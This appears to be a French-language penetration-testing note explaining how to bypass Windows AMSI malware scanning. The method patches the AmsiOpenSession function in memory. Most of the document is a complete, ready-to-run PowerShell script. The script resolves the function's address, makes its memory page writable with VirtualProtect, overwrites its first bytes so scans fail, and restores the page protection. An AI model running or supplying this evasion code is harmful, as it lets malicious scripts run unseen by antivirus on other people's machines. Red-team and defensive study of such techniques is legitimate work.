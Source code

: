 Une des méthodes de bypass de l'AMSI est de patcher la mémoire pour modifier les instructions assembleurs des fonctions AmsiScanBuffer,AmsiScanString ou AmsiOpenSession.

Le principe est simple il suffit de modifier directement l'une des fonctions en mémoire pour forcer un retour de positif des fonctions de scan.

Cela nécessite tout de même de pouvoir modifier la protection mémoire de l'emplacement de ces fonctions en mémoire donc cette méthode n'est pas très efficace contre les EDR.

Par exemple la fonction *AmsiOpenSession* peut être ciblé en forçant une erreur dans le flow de l'application ce qui forcera un retour null ou positif à l'application appelante (Exemple de code : https://github.com/snovvcrash/PPN/blob/master/pentest/infrastructure/ad/av-edr-evasion/amsi-bypass.md)

Le code Powershell suivant va : 

* Venir chercher en mémoire l'adresse de la fonction AmsiOpenSession dans la dll amsi.dll
* Modifier la protection mémoire de l'emplacement de la fonction AmsiOpenSession en PAGE_EXECUTE_READWRITE pour pouvoir modifier la fonction
* Modifier la fonction en mémoire pour appliquer le patch
* Modifier la protection mémoire pour la restaurer en PAGE_EXECUTE_READ

```powershell
function lookupFunc {
    Param ($moduleName, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | % {If($_.Name -eq "GetProcAddress") {$tmp += $_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $funcName))
}

function getDelegateType {
    Param (
        [Parameter(Position=0, Mandatory=$True)][Type[]] $argsTypes,
        [Parameter(Position=1)][Type] $retType = [Void]
    )

    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $argsTypes).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argsTypes).SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

# Cherche en mémoire l'adresse de la fonction AmsiOpenSession dans la dll amsi.dll
[IntPtr]$funcAddr = lookupFunc amsi.dll AmsiOpenSession
$oldProtection = 0
$vp = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32],[UInt32].MakeByRefType()) ([Bool])))
# Modification de la protection mémoire de l'emplacemment de la fonction AmsiOpenSEssion en modification
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtection)
$buf = [Byte[]] (0x48, 0x31, 0xC0)
# Applicationd du patch
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
# Restauration de la protection de la page
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtection)
```
